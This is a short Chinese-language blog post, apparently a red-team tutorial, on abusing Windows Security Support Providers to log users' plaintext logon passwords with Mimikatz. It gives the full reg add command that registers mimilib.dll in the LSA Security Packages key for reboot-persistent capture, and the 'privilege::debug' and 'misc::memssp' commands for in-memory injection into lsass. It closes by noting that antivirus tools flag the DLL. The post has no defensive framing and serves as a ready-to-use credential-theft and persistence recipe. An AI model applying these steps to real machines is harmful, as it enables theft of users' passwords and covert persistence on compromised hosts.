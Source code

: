 
## 简介
安全支持提供程序（SSP）是Windows API，主要功能是扩展Windows身份认证机制，该DLL文件会在`lsass.exe` 启动过程中进行加载，在此之前现介绍一下，它会对Windows以下认证进行保护：
* NTLM
* Kerberos
* Negotiate
* 安全通道（Schannel）
* 摘要
* 凭证（CredSSP）

我们可以对任意一个SSP DLL文件，从而记录下用户明文登陆的密码。

此文章主要介绍 DLL结合注册表进行记录密码 以及 诸如内存记录密码。



## 利用
主要介绍Mimikatz的两种记录方法，还有Empire和PowerSploit的利用方法都差不多，就不详细介绍。
1. DLL和注册表结合

将Mimikatz程序中的`mimilib.dll`复制到目标机器的system32文件夹下
![1.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-01.png)
所以 需要管理员权限

向路径：
`hklm\system\currentcontrolset\control\lsa\`
添加新值

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```
![2.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-02.png)

用户登陆即会在相同路径下（System32）记录明文密码，且重启依旧会记录。

![3.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-03.png)

1. 注入内存中

将mimikatz传入目标机器

管理员权限启动

```
privilege::debug

misc::memssp
```

![4.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-04.png)
当用户登陆时，System32文件夹下会自动存储`mimilsa`里面存放登陆的账号密码。

![5.png](https://raw.githubusercontent.com/is0late/is0late.github.io/master/_posts/2020/media/2020-01-07-05.png)

注：因为是注入内存中的所以在重启后，该功能就没了。




## 总结

第一种方法比第二种会更好一些，但是mimilib.dll已经被各大av标记，所以谨慎使用吧